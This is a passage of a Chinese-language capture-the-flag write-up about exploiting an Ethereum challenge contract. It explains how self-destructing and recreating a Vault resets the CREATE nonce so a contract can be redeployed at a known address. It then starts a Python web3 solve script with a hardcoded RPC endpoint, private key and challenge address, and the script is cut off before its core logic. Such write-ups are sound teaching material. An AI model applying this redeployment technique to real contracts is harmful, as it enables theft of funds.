 那么至此我们的攻击路径就基本完成了：

[![0.png](https://i.postimg.cc/m2ZbdPCg/0.png)](https://postimg.cc/8s3QcPZ2)

可能有人会问：为什么要销毁再创建新的Vault？我升级后直接调用new_sender不就好了？欸，还记得CREATE操作码的nonce是什么吗？是这个合约已创建的合约数+1，也就是说如果此时调用new_sender那么nonce是2，那么我们是无法获取到Diamond的（因为压根就不在那），销毁是为了重置这个nonce，就这么简单

那么这里就给出一个（应该能够运行的）脚本吧，别被吓到了，大部分都是合约的ABI，核心逻辑在后面

```Python
from web3 import Web3
from eth_account import Account
import solcx

# Configuration
RPC_URL = "http://164.90.231.253:8545/RARSiytkQIREDxCMlQjaKzzX/main"
PRIVATE_KEY = "0x85aa8a192685c1994e222fa9abf0c5a3156d03f8da6f0712477bcd8f1d35bcd5"
CHALLENGE_ADDRESS = "0xDb95DC78E696E454bAEC14570523bba1397bF4d0"
w3 = Web3(Web3.HTTPProvider(RPC_URL))
account = Account.from_key(PRIVATE_KEY)

def send_transaction(contract_function, account, privKey=PRIVATE_KEY):
    """Helper function to send transactions"""
    transaction = contract_function.build_transaction(
        {
            "from": account.address,
            "nonce": w3.eth.get_transaction_count(account.address),
            "gas": 500000,
            "maxFeePerGas": w3.eth.gas_price * 2,
            "maxPriorityFeePerGas": w3.eth.gas_price,
        }
    )

    signed_txn = w3.eth.account.sign_transaction(transaction, privKey)
    tx_hash = w3.eth.send_raw_transaction(signed_txn.rawTransaction)
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
    return receipt

def transfer(to, amount):
    tx = {
        "from": account.address,
        "to": to,
        "value": amount,
        "gas": 500000,
        "gasPrice": w3.eth.gas_price,
        "nonce": w3.eth.get_transaction_count(account.address),
    }

    signed_tx = w3.eth.account.sign_transaction(tx, PRIVATE_KEY)
    tx_hash = w3.eth.send_raw_transaction(signed_tx.rawTransaction)
    receipt = w3.eth.wait_for_transaction_receipt(tx_hash)
    return receipt

def main():
    print(f"Connected to network. Chain ID: {w3.eth.chain_id}")
    print(f"Using account: {account.address}")

    _solc_version = "0.8.13"
    solcx.set_solc_version(_solc_version)
    # Contract ABIs
    challenge = w3.eth.contract(
        address=CHALLENGE_ADDRESS,
        abi=[
            {
                "inputs": [],
                "name": "claim",
```